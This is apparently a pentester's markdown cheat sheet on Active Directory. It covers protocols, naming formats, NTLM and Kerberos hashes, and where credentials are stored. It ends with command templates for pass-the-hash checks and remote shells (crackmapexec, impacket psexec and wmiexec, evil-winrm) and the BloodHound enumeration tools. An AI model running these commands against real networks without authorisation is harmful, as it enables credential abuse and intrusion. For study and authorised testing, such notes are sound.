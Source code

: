 # AD Info
Active Directory is the Windows implementation of a general-purpose directory service.

---

## Common protocols used
|Service|port|Description|
|-|-|-|
|DNS|53|Host/IP translation|
|Kerberos, kpasswd|88,464|Authentication|
|RPC, RPC over HTTP|135, 593|Communication|
|NetBIOS|137, 138, 139|Communication, host/IP translation|
|LDAP, tls|389, 636|Main directory service, authorization|
|SMB|445|Communication|
|Global catalog LDAP, tls|3268, 3269|-|

---

AD Users and Computers:
* Objects
	* User account
		* Domain user account
		* Local user account
	* Computer account
	* Groups
		* Security Group
		* Distribution Group
	* Shares
	* Printers
	* Organizational Units (OU)
	* Attributes
	* Delegate Control

Service account:
* Managed service account (MSA)
	* sMSA
	* gMSA
* Computer account
* User account
	* Domain user account
	* Local user account

---

## Domain Naming
#### Down-level logon name
* NetBIOS_domain_name/samAccountName
* legacy systems - backwards compatible - used for local signon
* 20 chars long

#### User Principal Name (UPN)
* userPrincipalName@DNS_domain_name
* Useful in multi-domain 
* Reflects email style

http://blog.schertz.name/2012/08/understanding-active-directory-naming-formats/

*User account naming:*
* userPrincipalName
* sAMAccountName

*Domain & computers naming:*
* NetBIOS name
* DNS name

#### Naming Conventions
firstlast
first.last
flast
f.last
firlas
fir.las

Possible usernames can be calculated with username-anarchy:

`username-anarchy -i <NAMESLIST>`

---

## Windows authentication
Windows uses multiple authentication suites/protocols. Most important are NTLM authentication (LM authentication, NTLMv1, NTLMv2 and NTLM2 Session) and kerberos authentication.

NTLM authentication is a family of authentication protocols that are encompassed in the Windows Msv1_0.dll. The NTLM authentication protocols include LM version 1 and 2, and NTLM version 1 and 2. The NTLM authentication protocols authenticate users and computers based on a challenge/response mechanism that proves to a server or domain controller that a user knows the password associated with an account.

Kerberos authentication is the preferred authentication method for Active Directory environments.

A Windows hash consists of 2 parts: LM:NT. NTLM and Kerberos all use the NT hash, also known as the Unicode hash. LM authentication uses the LM hash:
* LM hash: 2 parts DES. Stored for backward compatibility reasons. No longer need it
* NT hash: MD4 hash

SAM: password hashes local account - pass the hash - NTLM
	encrypted with SYSTEM bootkey
SECURITY: cached domain credentials - logged on host
SYSTEM: LSA secrets
NTDS.DIT: user hashes on stored on DC
	DRSUAPI or VSS
	Kerberos keys
LSASS process from memory: clear-text passwords from logged on users, kerberos tickets

Credential Manager
Protected Storage

#### Calculate NT hash
```Python
import hashlib,binascii
print(binascii.hexlify(hashlib.new('md4', "<PASSWORD>".encode('utf-16le')).digest()))
```

---

## Exploitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p <PASS>` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H
`python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass`
`psexec.py -k -no-pass -dc-ip <IP> AD/administrator@192.168.1.100`
smbexec.py
wmiexec.py

---

## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD